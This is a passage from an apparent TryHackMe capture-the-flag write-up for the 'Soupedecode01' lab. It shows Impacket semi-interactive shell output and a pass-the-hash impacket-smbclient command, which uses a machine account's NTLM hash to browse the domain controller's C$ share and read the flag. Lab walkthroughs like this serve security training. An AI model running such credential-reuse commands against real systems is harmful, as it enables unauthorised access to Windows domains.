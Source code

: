 ```sh
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>[-] 
```

#### option ||| C$ share 

Alternatively, browse administrative shares via `SMB`  like `C$` then get the flag directly:

```sh
impacket-smbclient -hashes :e41da7e79a4c76dbd9cf79d1cb325559 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'
```

![](/images/TryHackMe/Soupedecode01/root-smb.png)

<div class="gif-container">
<img src="/gifs/crazy.gif" alt="GIF" class="gif-responsive">
</div>

---

